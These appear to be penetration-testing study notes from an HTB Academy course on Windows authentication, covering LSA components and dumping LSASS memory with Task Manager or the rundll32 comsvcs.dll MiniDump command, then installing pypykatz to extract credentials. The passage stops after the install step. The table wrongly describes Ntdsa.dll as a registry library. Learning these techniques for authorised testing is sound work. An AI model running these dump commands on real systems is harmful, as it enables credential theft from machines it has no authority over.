 |Authentication Packages|Description|
|-----------------------|-----------|
|`Lsasrv.dll`|The LSA Server service both enforces security policies and acts as the security package manager for the LSA. The LSA contains the Negotiate function, which selects either the NTLM or Kerberos protocol after determining which protocol is to be successful.|
|`Msv1_0.dll`|Authentication package for local machine logons that don't require custom authentication.|
|`Samsrv.dll`|The Security Accounts Manager (SAM) stores local security accounts, enforces locally stored policies, and supports APIs.|
|`Kerberos.dll`|Security package loaded by the LSA for Kerberos-based authentication on a machine.|
|`Netlogon.dll`|Network-based logon service.|
|`Ntdsa.dll`|This library is used to create new records and folders in the Windows registry.|

Each interactive logon session creates a separate instance of the Winlogon service.  
The [Graphical Identification and Authentication](https://docs.microsoft.com/en-us/windows/win32/secauthn/gina) (GINA) architecture is loaded into the process area used by Winlogon, receives and processes the credentials, and invokes the authentication interfaces via the [LSALogonUser](https://docs.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-lsalogonuser) function.

#### Attacking LSASS

Upon initial logon, LSASS will:

- Cache credentials locally in memory
- Create access tokens
- Enforce security policies
- Write to Windows security log

##### Dumping LSASS Process Memory

- With Task Manager (requires GUI access)

![Task Manager](.res/2024-01-21-14-17-53.png)

> Image from HTB Academy

A file `lsass.DMP` will be in `C:\Users\loggedonusersdirectory\AppData\Local\Temp`

- With Rundll32.exe & Comsvcs.dll

Before issuing the command to create the dump file, we must determine what process ID (PID) is assigned to lsass.exe. This can be done from cmd or PowerShell:

- `tasklist /svc` from cmd
- `Get-Process lsass` from powershell
- `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full` lsass dump with powershell

#### Using Pypykatz to Extract Credentials

- Install pypykatz

```bash
mkdir pypykatz
python3 -m venv .
source bin/activate
pip install pypykatz
```
